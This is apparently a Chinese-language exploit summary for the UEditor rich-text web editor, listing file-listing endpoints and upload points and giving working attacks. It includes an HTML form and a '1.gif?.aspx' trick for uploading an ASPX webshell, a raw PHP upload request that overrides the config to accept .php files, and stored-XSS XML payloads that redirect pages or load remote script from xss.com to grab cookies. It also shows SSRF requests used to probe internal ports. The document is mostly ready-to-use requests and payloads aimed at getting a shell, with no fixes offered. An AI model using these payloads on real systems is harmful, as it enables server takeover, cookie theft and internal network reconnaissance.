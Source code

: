 # Ueditor编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：

![ueditor-1](images/ueditor-1.webp)

## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.com/net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```

![ueditor-2](images/ueditor-2.webp)

- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell

![ueditor-3](images/ueditor-3.webp)



### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：

![ueditor-4](images/ueditor-4.webp)

上传成功，访问成功弹框：

![ueditor-5](images/ueditor-5.webp)

#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```

